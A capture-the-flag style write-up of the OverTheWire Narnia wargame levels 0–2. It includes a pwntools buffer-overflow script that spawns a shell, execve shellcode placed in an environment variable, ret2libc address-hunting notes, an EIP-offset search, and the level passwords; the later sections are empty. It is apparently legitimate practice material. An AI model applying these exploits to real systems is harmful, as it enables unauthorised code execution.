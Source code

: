 
`ssh narniax@narnia.labs.overthewire.org -p 2226`

`scp -P 2226 narniax@narnia.labs.overthewire.org:/narnia/narniax .`
`scp -P 2226 narniax@narnia.labs.overthewire.org:/narnia/narniax.c .`

very useful resource to write shit in pwntools
https://tc.gts3.org/cs6265/2019/tut/tut03-02-pwntools.html

## narnia0 : narnia0 

So, the first challenge is a basic bufferoverflow attack. As, I didn't want to solve it in the conventional way (using `echo` or `python -c print`), I took this as a chance to get used to the commands in gdb (peda), and make a script in pwntools.


Learning to ssh with pwntools and running a binary as a process. I first downloaded the files and ran the exploit locally, then added the ssh part later.
I am deffo gonna be writing all my exploits in pwntools, as it's more naturally to me to write exploits in python than using bash commands.


Here's my exploit 
```python
from pwn import *

shell = ssh('narnia0', 'narnia.labs.overthewire.org', password='narnia0', port=2226)

  

context.update(arch='i386', os='linux')

  

# create a process

p = shell.process("/narnia/narnia0")

  

print(p.recvline())

  

a = b"aaaabaaacaaadaaaeaaa\xef\xbe\xad\xde"

  

p.sendline(a)

  

print(p.recvline())

print(p.recvline())

p.interactive()
```

## narnia1 : efeidiedae

So, we need a persitent ENV variable which gets executed.

We need a shell code, but how do we have a env variable that is presistent. 

First, we copy `.bashrc` and to a temporary folder, add one line that is the enviromental variable, this variable should be persistent :D 

oh and make sure to `source ` the file

okay, now that we can have a variable that will be executed, let's now craft our shellcode, I discovered that pwntools does this for you easily (pwntools is just op)

```python
from pwn import *
print(asm(shellcraft.linux.sh()))
```

run the script, copy the bytes to the enviromental variable, should look something like 

```bash
export EGG = $'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
```

This creates a function in assembly that will syscall to give us shell :triumph:

I spent a bit of time trying to ret2libc, but this was the wrong way craft a shell code, the solution I figured out was was much easier than this. I dont want to waste all that research, so here's stuff i learnt

#### retlibc attempt research

Let's find the address of system 

https://security.stackexchange.com/questions/195246/how-to-find-address-of-system-in-an-executable-rop-exploit

address of system : `0xf7e4c850`

Let's find the address of /bin/sh
https://stackoverflow.com/questions/49684686/buffer-overflow-to-bin-sh

```bash
find &system,+9999999,"/bin/sh"
```

address of sh: `0xf7f6ecc8`

way to create ret2libc exploits 
`&system | 00 | &bin/sh`
https://tripoloski1337.github.io/ctf/2020/01/26/return-to-libc-attack.html
^ writeup that helped.


## narnia2 : nairiepecu
Looking at the code, I have a feeling that it might be overwriting the EIP and making it call our shell code function that we injected.

Inspecting in gdb, we see that
```
r $(cyclic 136)
cyclic -l "iaab"
```

The eip is overwritten after 132 bytes in the  buffer, the last 4 bytes overwrites EIP.

Perhaps, we can inject our shellcode here? Let's try



## narnia3 : 


## narnia4 : 



